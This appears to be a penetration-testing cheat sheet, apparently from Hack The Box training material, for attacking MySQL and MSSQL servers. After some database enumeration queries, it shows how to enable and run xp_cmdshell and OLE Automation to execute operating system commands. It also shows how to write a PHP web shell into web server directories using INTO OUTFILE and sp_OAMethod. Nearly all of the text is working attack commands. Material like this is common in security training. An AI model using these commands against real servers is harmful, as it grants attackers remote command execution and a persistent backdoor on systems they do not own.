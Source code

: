 ### MSSQL Commands
```
1> SELECT name FROM master.dbo.sysdatabases
2> GO
```
```
1> SELECT table_name FROM htbusers.INFORMATION_SCHEMA.TABLES
2> GO
```
```
1> xp_cmdshell 'whoami'
2> GO
```
If xp_cmdshell is not enabled, we can enable it, if we have the appropriate privileges, using the following command:
```
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO
```
### MySQL - Write Local File

```
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

### MySQL - Secure File Privileges
```
show variables like "secure_file_priv";
```

### MSSQL - Enable Ole Automation Procedures
```
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```
### MSSQL - Create a File
```
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```